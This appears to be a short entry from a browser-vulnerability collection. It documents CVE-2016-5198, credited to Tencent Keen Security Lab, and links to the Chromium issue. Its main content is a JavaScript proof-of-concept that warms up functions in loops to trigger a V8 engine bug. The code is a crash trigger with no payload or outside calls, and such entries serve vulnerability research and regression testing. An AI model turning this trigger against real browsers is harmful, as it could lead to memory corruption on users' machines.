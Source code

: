 # CVE-2016-5198

- Date: Oct 2016
- Credit: Tencent Keen Security Lab

## PoC

```javascript
function Ctor() {
  n = new Set();
}
function Check() {
  n.xyz = 0x826852f4;
  parseInt();
}
for(var i=0; i<2000; ++i) {
  Ctor();
}
for(var i=0; i<2000; ++i) {
  Check();
}
Ctor();
Check();
```

## Reference

- [Issue](https://crbug.com/659475)
